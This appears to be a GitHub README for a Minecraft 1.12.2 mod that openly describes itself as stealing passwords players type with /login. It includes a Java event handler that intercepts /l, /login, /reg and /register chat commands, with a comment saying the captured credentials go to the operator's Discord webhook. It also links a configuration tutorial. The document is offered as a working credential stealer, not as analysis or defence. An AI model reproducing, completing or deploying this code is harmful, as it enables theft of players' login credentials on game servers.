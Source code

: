 # 🔌 LoggerMod
This mod on 1.12.2 steals the entered passwords (Entered via /login)


# ⚡ How to configure?
You can easily change the config for yourself
Tutorial: [Click](https://www.youtube.com/watch?v=RxuuHBnjgj0) (in Russian)

# ❓ How it Works?
```java
    @SubscribeEvent
    public void ChatEvent(ClientChatEvent e) {
        String msg = e.getMessage();
        String[] sentences = e.getMessage().split(" ");

        if ((msg.startsWith("/l") || msg.startsWith("/login") || msg.startsWith("/reg") || msg.startsWith("/register")) && sentences.length > 1) {
            // Sending to your discord server use Webhook
        }
    }
``` 

# 📱 Screenshots
![Screenshot_20220303_200054](https://user-images.githubusercontent.com/100863585/156613993-d4fd0a97-e967-4539-be72-2893f90d70ba.png)
